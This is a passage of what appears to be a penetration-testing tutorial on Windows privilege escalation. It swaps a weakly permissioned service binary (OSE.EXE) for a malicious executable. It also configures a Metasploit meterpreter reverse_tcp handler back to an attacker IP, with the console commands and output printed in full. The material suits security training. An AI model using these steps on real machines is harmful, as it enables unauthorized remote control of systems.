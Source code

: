 Now you have to get that exploit.exe over to your target windows machine. I'll leave this up to you but if you run the [python simple http server](http://www.linuxjournal.com/content/tech-tip-really-simple-http-server-python) in that current directory then all you have to do on the windows machine is open up internet explorer put in the IP address of your attack machine and download exploit.exe. Next put exploit.exe into the folder with the weak permissions in this case C:\\Program Files\\Common Files\\Microsoft Shared\\Source Engine\\OSE.EXE. You should now have something like this.

[![](images/beforeExploit.png "beforeExploit")](http://travisaltman.com/wp-content/beforeExploit.png)

Next rename the original ose.exe to something different and name exploit.exe to ose.exe

[![](images/renameExploit.png "renameExploit")](http://travisaltman.com/wp-content/renameExploit.png)

So now we've replaced the original executable with our malicious executable next we'll need to fire up metasploit so that it can accept our connection once we run our new executable. So head over to your Linux box and run the msfconsole command.

\[cce lang="bash"\]root@bt:/pentest/exploits/framework#./msfconsole\[/cce\]

You should now have a "msf" console, next run the following commands.

\[bash\] msf > use exploit/multi/handler msf  exploit(handler) > set payload windows/meterpreter/reverse\_tcp payload => windows/meterpreter/reverse\_tcp msf  exploit(handler) > set lhost 192.168.134.135 lhost => 192.168.134.135 msf  exploit(handler) > set lport 80 lport => 80 msf  exploit(handler) > \[/bash\]

At this point it's always a good idea to do the "show options" command to make sure everything is set up correctly.

\[bash\] msf  exploit(handler) > show options

Module options (exploit/multi/handler):

Name  Current Setting  Required  Description ----  ---------------  --------  -----------

Payload options (windows/meterpreter/reverse\_tcp):

Name      Current Setting  Required  Description ----      ---------------  --------  ----------- EXITFUNC  process          yes       Exit technique: seh, thread, process, none LHOST     192.168.134.135  yes       The listen address LPORT     80               yes       The listen port

Exploit target:

Id  Name --  ---- 0   Wildcard Target \[/bash\]

If everything checks out then you're ready to go, now just type "exploit". This will wait until we run the executable on the target machine but when we do it will give us back our meterpreter command prompt.

\[bash\] msf  exploit(handler) > exploit

\[\*\] Started reverse handler on 192.168.134.135:80 \[\*\] Starting the payload handler... \[/bash\]

Now on the target windows machine we'll need to start the service which will run our malicious executable then connect back to our attack machine giving us a command prompt. So run the [wmic](http://travisaltman.com/one-liner-commands-for-windows-cheat-sheet/) command below to start the service.

